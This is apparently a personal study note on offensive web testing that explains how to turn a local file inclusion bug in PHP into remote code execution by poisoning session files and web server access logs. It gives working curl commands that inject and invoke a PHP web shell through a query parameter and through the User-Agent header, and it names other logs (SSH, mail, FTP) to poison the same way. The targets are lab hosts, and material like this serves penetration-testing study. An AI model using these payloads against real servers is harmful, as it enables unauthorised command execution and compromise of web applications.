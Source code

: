 We tryna write PHP code in a field we control that gets logged into a log file (i.e. poison/contaminate the log file), and then include that log file to execute the PHP code to gain RCE.

### PHP Session Poisoning
Most PHP web applications utilize `PHPSESSID` cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies. These details are stored in `session` files on the back-end, and saved in `/var/lib/php/sessions/` on Linux and in `C:\Windows\Temp\` on Windows. The name of the file that contains our user's data matches the name of our `PHPSESSID` cookie with the `sess_` prefix. For example, if the `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`, then its location on disk would be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`.

The first thing we need to do in a PHP Session Poisoning attack is to examine our PHPSESSID session file and see if it contains any data we can control and poison. So, let's first check if we have a `PHPSESSID` cookie set to our session:
![[Pasted image 20250218232907.png]]
As we can see, our `PHPSESSID` cookie value is `nhhv8i0o6ua4g88bkdl9u1fdsd`, so it should be stored at `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`. Let's try include this session file through the LFI vulnerability and view its contents

```bash
curl http://10.10.10.10/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

The next step is to perform the `poisoning` step by writing PHP code to the session file. We can write a basic PHP web shell by changing the `?language=` parameter to a URL encoded web shell, as follows:

```bash
curl http://10.10.10.10/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Exploit
```bash
curl http://10.10.10.10/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

### Server Log Poisoning
Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs with a **PHP wbeshell**

```bash
curl http://adot.com/app/index.php?page=../../../../../var/log/apache2/access.log
```

Should have something like this
```bash
10.10.14.1 - - [19/Jun/2024:12:11:34 +0000] "GET /app/index.php?page=admin.php
HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101
Firefox/91.0"
```

We can edit the User-Agent to the following in Burp
```php
<?php echo system($_GET['cmd']); ?>
```

Now we can run commnads
```bash
curl http://adot.com/app/index.php?page=../../../../../var/log/apache2/access.log&cmd=whoami
```

We can the above with these logs as well
- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`

We should first attempt reading these logs through LFI, and if we do have access to them, we can try to poison them as we did above. For example, if the `ssh` or `ftp` services are exposed to us, and we can read their logs through LFI, then we can try logging into them and set the username to PHP code, and upon including their logs, the PHP code would execute. The same applies the `mail` services, as we can send an email containing PHP code, and upon its log inclusion, the PHP code would execute. We can generalize this technique to any logs that log a parameter we control and that we can read through the LFI vulnerability